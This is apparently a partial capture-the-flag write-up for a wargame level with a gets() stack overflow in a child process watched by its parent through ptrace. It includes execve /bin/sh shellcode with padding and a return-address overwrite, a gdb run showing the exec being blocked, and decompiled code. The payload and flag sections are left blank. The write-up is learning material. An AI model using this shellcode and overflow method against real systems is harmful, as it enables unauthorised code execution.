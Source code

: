 # level 4 <vulnerability name/type>

## Overview
<explanation about: the type of binary in high level and the type of vulnerability>

## Steps (copiable for the correction)

### gets
*there is vulnerability with `gets`*

let's check address of each variables.

address of argument of gets: `%esp+0x20` = `0xffffd630`\
address of return address: `%ebp+0x4` = `0xffffd6cc`\
offset = 156 bytes

```
python -c '''
shellcode = "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
padding = "x"*(156-len(shellcode))
address = "\xff\xff\xd6\x30"[::-1]
print shellcode + padding + address
''' > /tmp/04

(gdb) r <<< $(cat /tmp/04)
Starting program: /home/users/level04/level04 <<< $(cat /tmp/04)
Give me some shellcode, k
no exec() for you
[Inferior 1 (process 2007) exited normally]
```

this method is blocked by in `parent`
```
while ( v8 != 11 );
puts("no exec() for you");
kill(v9, 9);
```


### challenge
1. weird if statement. \
`if ( (v4 & 0x7F) == 0 || (v7 = v4, (char)((v4 & 0x7F) + 1) >> 1 > 0) )`\
It seems impossible to pass it... 

3. not fully understand how `ptrace` works. 

### reference links
[Playing with ptrace](https://www.linuxjournal.com/article/6100)\
[ptrace.h](https://sites.uclouvain.be/SystInfo/usr/include/sys/ptrace.h.html)\
[Exploiting Linux systems with ptrace](https://raj3shp.medium.com/exploiting-linux-systems-with-ptrace-637f13a7d9ea)\
[Intercepting and Emulating Linux System Calls with Ptrace](https://nullprogram.com/blog/2018/06/23/)

## Code
### in child
```c
prctl(1, 1);
ptrace(0, 0, 0, 0);
puts("Give me some shellcode, k");
gets(v5);
```
- `prctl(1, 1)` sets the process to receive a SIGHUP signal if its parent process dies.
- `ptrace(PTRACE_TRACEME, 0, 0, 0)` declares that the current process should be traced by its parent, often used in debugging scenarios.

### in parent
```c
do
{
  wait(&v4);
  v6 = v4;
  if ( (v6 & 0x7F) == 0 || (v7 = v4, (char)((v4 & 0x7F) + 1) >> 1 > 0) )
  {
    puts("child is exiting...");
    return 0;
  }
  v8 = ptrace(3, v9, 44, 0);
}
while ( v8 != 11 );
puts("no exec() for you");
kill(v9, 9);
```



```
(gdb) set follow-fork-mode child
(gdb) set follow-fork-mode parent
```


## Payload (Most important command to obtain the flag)

## Flag